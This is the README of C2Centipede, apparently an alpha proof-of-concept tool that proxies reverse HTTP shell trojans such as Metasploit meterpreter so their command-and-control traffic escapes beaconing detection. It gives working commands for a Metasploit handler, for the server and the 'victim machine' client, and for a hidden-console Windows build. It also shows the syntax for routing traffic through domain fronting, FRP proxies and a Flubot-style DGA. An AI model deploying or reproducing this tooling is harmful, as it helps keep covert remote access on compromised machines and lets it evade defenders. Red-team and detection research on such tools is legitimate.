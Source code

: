 # C2Centipede (alpha)

## What is C2Centipede?
C2Centipede is a Proof of Concept proxy for reverse HTTP shell tools (like metasploit or empire) to evade beaconing detection by 1)reducing the beaconing 2)route the C2 communications from the trojan through different servers, currently using FRP reverse proxies or multiple Domain Fronts.

## How does it work?
There are two basic components of C2Centipede, client and server. The client is executed in the victim machine along the trojan (e.g. reverse http meterpreter) and receives the trojan's requests. The client will be in charge of faking answers to the trojan to keep it alive and choosing the route the trojan beacon should follow. The original HTTP request from the trojan is wrapped and encrypted using a Fernet symmetric key.

The server component receives the requests from the c2centipede client, decrypts them and sends them to the handler (Metasploit http handler, empire, etc), sending the answer back to the c2centipede client, along with it's own commands that affect the behaviour of the client. The operator can modify the behaviour of the client on the fly, for example by decreasing or increasing the number of fake answers to the trojan, or adding new routes the client can use to communicate with the server. The control data for C2Centipede is piggybacked on the trojans requests, so there is no additional "noise" in the network.

Additionally there is a GUI for the operator.

## Setup
git clone https://github.com/deepsight/C2Centipede
cd C2Centipede
git clone https://github.com/fatedier/frp


## Sample commands

### On the server
The server uses python3

1) Run your handler /msfconsole -x "use exploit/multi/handler;set payload python/meterpreter_reverse_http;set exitonsession false; set lport 8888; set lhost 0.0.0.0; run -j
You can use any reverse HTTP payload, not just python.

2)Generate your meterpreter (with msfvenom), empire or other trojan pointing to localhost and the port specified on the -p argument you will use in the c2centipede client (in this case 2233)

3) python3 c2c_server.py -p 9093 -d 127.0.0.1:8888 -a lalala:lelele -b -f xkJSFO2DKQyYxj9F6Q4XCXIviiFuxNzZjsEfNc9NgoM=
-p port to listen to
-d destination of the packages (This would be your MSF or Empire handler address)
-a authentication for the c2centipede server, the operator needs to know these to send commands to the c2centipede server.
-b beep (for debugging, you can listen to the beacons of your trojan)
-f Fernet key, symmetric shared with the client. (if not specified it will generate a new one)

4)Set your RFP proxies and/or CDNs.


### On the victim machine
The client uses python2 because _reasons_

1) python2 c2c_client.py -p 2233 -b 127.0.0.1 -s 127.0.0.1:9093 -f xkJSFO2DKQyYxj9F6Q4XCXIviiFuxNzZjsEfNc9NgoM=
-p port where the client listens to
-b bind to this interface
-s server addresses (direct connection, frp proxy or domain fronted host), you can add as many as you wish (or use -t to use a textfile with newline separated server addresses)
-f fernet symmetric key as specified on the server component.

Optionally, you can compile the client for windows using pyinstaller
wine pyinstaller.exe --onefile --noconsole c2c_client.py

2)Drop the c2centipede client script or executable and the trojan

3)Run the trojan

## Supported C2 routes

The C2 communication can be routed through many hosts. They can be setup when executing the c2centipede client with the -s or -t flags. 

Direct or connections through HTTP proxies (like FRP) can be specified as ip:port e.g. "-s 123.123.123.123:2222 222.333.45.23:80"

Domain fronting can be specified in the following format: -s fronted{hightrustdomain.com{evilhost.yourcdnprovider.com fronted{anotherdomain.com{evilhost.yourcdnprovider.com fronted{anotherhightrustdomain.com{evilhost.anothercdn.com

Flubot DGA can be used to bootstrap your C2 connection, the syntax is flubot{seed{numberofdomains{port
This is based on this great post: https://securityblog.switch.ch/2021/06/19/android-flubot-enters-switzerland/


## TODO
Treat this as alpha quality code, it's meant to be a PoC for beaconing evasion.
I have tested very basic functionality for doing C2 comms through webdav, so this might come later.
